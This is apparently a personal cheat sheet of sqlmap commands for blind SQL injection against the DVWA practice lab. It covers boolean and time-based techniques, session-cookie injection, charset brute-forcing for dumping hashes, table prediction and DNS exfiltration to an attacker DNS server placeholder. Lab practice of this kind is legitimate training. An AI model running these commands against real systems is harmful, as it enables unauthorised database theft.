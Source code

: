# SQLMap

Search Tag(s): #blind-sql-injection #sqlmap #dvwa

## Boolean-Based

## Time-Based

```
$ sqlmap -u "<URL>" --time-sec=10
```

### Enumeration

--first=FIRSTCHAR   First query output word character to retrieve

--last=LASTCHAR     Last query output word character to retrieve

### Page comparison

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database." --code=200
```

We can combine the two flags (`--string` and `--not-string`) into one using the `--regexp` flag. We'll take the response `(?!is MISSING from)` to negate the match regex and match `(exists in)` positively.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" -p id --random-agent --dbms=mysql --technique=B --regexp="User ID ((exists in)|(?\!is MISSING from)) the database." --code=200
```

These are the python regexes that works so far.

```
User ID ((exists in)|(?!is MISSING from)) the database.
User ID (?!is MISSING from)exists in the database.
User ID exists in(?!is MISSING from the database.
User ID (?!is MISSING from)[a-zA-Z ]*the database.
User ID (?!is MISSING from)[a-zA-Z ]+the database.
User ID (?!is MISSING from)[a-zA-Z ]{9} the database.
User ID (?!is MISSING from)[a-zA-Z ]{10}the database.
```

--smart             Perform thorough tests only if positive heuristic(s)
--text-only         Compare pages based only on the textual content
--titles            Compare pages based only on their titles

### Bruteforce

For dumping hashes

```
--charset="1234567890abcdef"
```

```
--charset="1234567890ABCDEF"
```

```
--charset="1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

### Output Prediction via Bruteforce

Uses `sqlmap/data/txt/common-tables.txt` for common tables.

```
$ sqlmap --common-tables
```

Uses `sqlmap/data/txt/common-columns.txt` for common columns.

```
$ sqlmap --common-columns
```

Uses `sqlmap/data/txt/common-files.txt` for common files.

```
$ sqlmap --common-files
```

Uses `sqlmap/data/txt/common-outputs.txt` to predict common queries output

```
$ sqlmap --predict-output
```

--safe-url=SAFEURL  URL address to visit frequently during testing
--safe-freq=SAFE..  Regular requests between visits to a safe URL
### Speed

Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches

--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body

Multithreading HTTP requests to increase the speed.

```
$ sqlmap --threads=4
```

### DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```